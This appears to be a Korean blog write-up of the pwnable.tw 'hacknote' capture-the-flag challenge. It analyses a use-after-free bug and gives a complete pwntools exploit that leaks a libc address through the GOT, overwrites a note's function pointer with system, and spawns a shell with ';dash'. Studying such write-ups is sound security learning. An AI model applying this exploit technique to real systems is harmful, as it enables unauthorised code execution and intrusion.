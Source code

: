 ```yaml
---
layout: post
title: "[pwnable.tw] hacknote 풀이"
date: 2018-08-01 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```


>## hacknote [200 pts]
### A good Hacker should always take good notes!
### `nc chall.pwnable.tw 10102`
### [hacknote](https://pwnable.tw/static/chall/hacknote)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/hacknote/01.png)
{: refdef}

평범평범

{: refdef: style="text-align: center;"}
![main](/img/pwnable.tw/hacknote/02.png)
{: refdef}

UAF!

{: refdef: style="text-align: center;"}
![func_alloc](/img/pwnable.tw/hacknote/03.png)
{: refdef}

우선 `func_add`를 보면 특이하게 `puts_next`라는 함수를 청크에 넣어주네요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/04.png)
{: refdef}

`puts`의 인자가 특이하네요. 아마 `func_print`에서 쓰려고 넣어둔거 같아요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/05.png)
{: refdef}

`func_delete`는 별거 없고 `func_print`를 보면 `(*note_list[v1])(note_list[v1])`으로 위에서 본 `puts_next`를 사용해서 출력하네요.

- - -
# 0x01. 취약점 증명

우선 `UAF`가 잘 되는지 봐야하니까 대충 아무 값이나 넣어서 확인해 볼게요.

```python
def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))
```

함수 선언

```python
func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

func_add(8, "C"*8)
func_print(0)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/06.png)
{: refdef}

타란!

이제 	`puts_next`자리에 다른 함수의 주소를 넣거나 `puts_next`의 인자를 바꾸거나 등을 할 수 있어요.

- - -
# 0x02. 공격 방법

1. memory leak

2. `puts_next`대신 `system`을 넣음

3. 인자를 조절해 `system("/bin/sh")` 실행


처음엔 memory leak부터 해야해요.

그러니까 `puts_next`는 일단 가만히 두고 그 인자로 `puts_got`를 넣을게요.

```python
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/07.png)
{: refdef}

"/bin/sh"의 주소를 안 구하는 이유는 아까 위에서 본 함수 호출 방식 때문이에요.

`puts_next`는 `*(al+4)`를 사용해서 인자를 받아서 상관없었는데 `puts_next`대신 `system`을 넣으면 `system(real_system~~~~)` 이런식으로 실행이 되어서 "/bin/sh" 문자열의 주소가 아닌 문자열 그 자체를 넣어줘야해요.

그리고 `system(real_system;/bin/sh\0)` 이런식으로 세이콜론을 사용해서 `system("/bin/sh")`를 실행시킬거라서 12자가 넘어가요. 그러면 다른 위치로 청크를 만들어서 `UAF`가 발생하지 않아요.

그래서 "/bin/sh"대신 "sh", "dash", "bash" 등을 사용해야해요.

- - -
# 0x03. 익스플로잇

"sh"는 안돼서 "dash"로 했어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10102

s = remote(HOST, PORT)

elf = ELF("./hacknote")
#libc = ELF("./libc-2.27.so")
libc = ELF("./libc_32.so.6")
pause()

puts_next = 0x0804862b
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)

payload = p32(real_system)
payload += ";dash"

func_delete(2)
func_add(12, payload)
func_print(0)

s.interactive()
```

